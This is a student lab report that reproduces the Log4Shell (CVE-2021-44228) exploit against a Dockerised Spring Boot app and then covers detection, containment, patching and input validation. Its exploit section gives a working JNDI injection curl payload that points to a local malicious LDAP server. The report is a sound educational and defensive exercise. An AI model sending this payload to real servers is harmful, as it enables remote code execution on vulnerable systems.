



# Summary Report - Craig Troop
## 24 May 2025

## 1. Archtecture


As seen above, the architecture for this demonstration is rather simple. We have a vulnerable Java server running in a Docker container, and a malicious LDAP server running on the host. The attacker interacts with the web server through a curl command in a terminal window.

### Assignment Modifications
The provided code did not run, and a few modifications were required.

| Modification | Location | Rationale |
|--------------|----------|-----------|
| Add Log4J | pom.xml | Java defaults to logback if Log4j is not specified. |
| Main Class | Log4ShellDemo.java | Java app will not run without main class. |
| LDAP Server | ldap_server.py | ldap3 is a client library and the provided code did not run. I implemented a simple socket server running on 1389 to serve as the ldap server. |
| content-type | curl command | The provided curl command is interpreted as a string and does not trigger the exploit. Adding strict content typing achieves the desired execution.

## 2. Exploit
This exploit is a remote code execution vulnerability in the Log4j library, reported as [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/cve-2021-44228) (Apache Software Foundation, 2025). Without proper input sanitization, the Java Naming and Directory Interface (JNDI) allows remote code execution on vulnerable servers. To demonstrate this exploit, we use a Spring Boot application running inside a Docker container, configured to use a vulnerable version of Log4j in the backend. We use a Python LDAP server to simulate delivery of a malicious payload. The attacker sends the following curl command to the Java application, which then executes an LDAP request to our malicious server, which redirects the server to a ficticious malicious endpoint:

```curl -H 'Content-Type: text/plain' --data '${jndi:ldap://host.docker.internal:1389/a}' http://localhost:8080/log```

In a real-world scenario, this malicious endpoint would likely deliver a java class that opens a reverse shell to the attacker, granting access to the Java server. This attack works because the logging backend does not properly santize the input, and interprets the JNDI expression to trigger an outbound LDAP request. The LDAP server is configured to respond to all incoming requests with the malicious payload.

## 3. Mitigation and Response
### Detect


The easiest method to detect this attack is to observe it in the logs. As shown in the figure above, the red box highlights the curl command execution. This execution causes an error on the Java server because it does not receive the correct LDAP response from our server. This is not important because the remote execution is what we were looking to see.

### Contain
To contain the vulnerability, we stop the affected container. This allows patching before deploying the hardened container and testing to validate the exploit no longer works.

### Eradicate
To eradicate the vulnerability we upgrade the Log4j version to the latest release, 2.24.3. Alternatively, we could remove the Log4j dependency altogether and use the alternative that is included with Java, Logback (Goebelbecker & Aibin, 2024). For this assignment, we upgraded to a secured version of Log4j. We also implement input validation to stop jndi commands without relying on the inherent protection in the hardened package. This provides two layers of defense against this exploit.

### Recover


Restarting the hardended container and testing the exploit shows that the vulnerability no longer exists. The red hightlight above shows the input validation prevented the attack before execution.

## 4. References
* Apache Software Foundation. (2025, April 3). *CVE-2021-44228 Detail*. NATIONAL VULNERABILITY DATABASE. https://nvd.nist.gov/vuln/detail/cve-2021-44228
* Goebelbecker, E., & Aibin, M. (2024, July 20). A Guide To Logback. Baeldung. https://www.baeldung.com/logback